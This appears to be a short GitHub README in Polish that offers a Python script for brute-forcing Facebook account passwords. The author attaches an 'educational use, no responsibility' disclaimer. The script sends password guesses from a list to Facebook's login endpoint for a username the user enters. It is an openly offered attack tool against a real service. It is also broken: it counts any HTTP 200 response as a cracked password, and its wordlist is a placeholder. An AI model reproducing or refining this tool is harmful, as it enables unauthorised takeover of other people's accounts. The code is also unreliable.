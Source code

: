 

# Brute-force-
Brute force Facebook "używajcie w calch edukacji" nie ponoszę odpowiedźi
miłej zabawy wam życzę powodzenia w testach 
_____________________________________________



import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = input("Podaj nazwę użytkownika: ")
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()
